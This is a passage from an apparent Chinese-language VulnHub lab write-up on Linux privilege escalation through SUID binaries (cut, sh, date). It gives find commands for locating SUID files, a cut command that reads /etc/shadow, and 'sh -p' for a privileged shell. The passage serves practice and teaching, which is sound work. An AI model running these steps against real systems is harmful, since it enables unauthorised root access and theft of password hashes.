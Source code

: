 ![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\30.jpg)

## cut提取

使用`find`寻找具有SUID权限文件

```shell
find / -perm -u=s -type f 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\31.jpg)

查看文件类型为可执行文件，并查看帮助，确定为命令`cut`

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\32.jpg)

用法与使用`sudo`提取时一样

```shell
LFILE="/etc/shadow"
./cut -d "" -f1 "$LFILE"
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\33.jpg)

## sh提取

使用`find`寻找具有SUID权限文件

```shell
find / -perm -4000 -exec ls -al {} \; 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\34.jpg)

查看文件类型为可执行文件，并且测试发现是`sh`，直接使用`sh -p`提取即可

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\35.jpg)



## date提取

使用`find`寻找具有SUID权限文件

```shell
find / -perm -4000 -print 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\36.jpg)

查看文件类型为可执行文件，查看帮助确定为命令`date`

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\37.jpg)
